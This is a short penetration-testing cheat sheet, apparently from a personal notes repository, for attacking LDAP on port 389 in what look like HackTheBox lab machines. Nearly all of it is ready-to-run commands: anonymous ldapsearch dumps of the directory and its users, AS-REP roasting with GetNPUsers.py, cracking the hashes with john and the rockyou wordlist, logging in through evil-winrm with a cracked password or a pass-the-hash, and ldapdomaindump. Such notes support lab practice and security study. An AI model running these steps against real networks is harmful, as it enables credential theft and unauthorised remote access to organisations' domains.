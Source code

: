 # Port 389 - LDAP

## LDAPSearch

LdapSearch Naming Context Dump:

```bash
ldapsearch -H 10.10.10.172 -x -s base namingcontexts
```

### LdapSearch Big Dump

Need Naming Context to do big dump:

```bash
ldapsearch -H {IP} -x -b "{Naming_Context}"
ldapsearch -H {IP} -x -b "DC=htb,DC=local"
```

### Query users in LDAP

```bash
ldapsearch -H 10.10.10.172 -x -b "DC=MEGABANK,DC=LOCAL" '(objectClass=Person)'
```

## Extract hash >> Crack >> Connect

```bash
# Get users hashes
python GetNPUsers.py MEGABANK.LOCAL/ -usersfile users.txt -dc-ip 10.10.10.172
python GetNPUsers.py -request MEGABANK.LOCAL/ -dc-ip 10.10.10.172

# Crack the hashes
john -wordlist=/usr/share/wordlists/rockyou.txt hash.txt

# Connect with Evil-winrm
evil-winrm -u mhope -p '4n0therD4y@n0th3r$' -i 10.10.10.172

# Connect using username&hash
evil-winrm -u mhope -H 'HASHDKASUDHASKUDWXADYASDASJDH' -i 10.10.10.172
```

## LDAP Domain Dump

```
ldapdomaindump $IP -u 'fusion.corp\lparker' -p '****************' --no-json --no-grep
```
